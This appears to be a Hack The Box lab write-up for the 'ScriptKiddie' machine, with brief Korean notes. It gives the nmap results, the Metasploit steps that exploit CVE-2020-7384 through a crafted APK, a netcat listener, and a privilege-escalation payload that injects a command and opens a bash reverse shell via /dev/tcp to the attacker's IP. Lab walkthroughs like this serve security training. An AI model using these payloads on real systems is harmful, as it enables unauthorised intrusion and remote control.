 ## Machine: ScriptKiddie
- Date: 2021.05.02
- Author: jak010

### Setup
- ExportIP: 10.10.10.226


### Nmap Scan
```text
# Nmap 7.91 scan initiated Sun May  2 15:52:33 2021 as: nmap -sC -sV -oA nmap/initial 10.10.10.226
Nmap scan report for 10.10.10.226
Host is up (0.21s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  2 15:52:51 2021 -- 1 IP address (1 host up) scanned in 17.95 seconds
```

### Interesting
- 사용자가 입력한 값을 결과로 보여주고 있음
- `Payloads`를 입력받는 곳에서 플랫폼을 선택할 수 있음
	- windows
	- linux
	- android

### Malicious Payload
- `exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`
	- Refer to
		- `https://nvd.nist.gov/vuln/detail/CVE-2020-7384`
		- `https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/`

### Exploit && Ganing Shell
- Payload Generate
    ```sh
    msf6 > search apk_template
    msf6 > use 0
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.58
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exploit
    [+] msf.apk stored at /Users/jak/.msf4/local/msf.apk
    ```
- Reverse Shell
	- OS X
        ```sh
        $ nc -nvl 4444
        ``` 
        
### Priviliege Escalate
- Payload
    ```sh 
    $ echo “ ;/usr/bin/bash -c ‘/usr/bin/bash -i >& /dev/tcp/10.10.14.58/9001 0>&1’ #” >> hackers
    ```



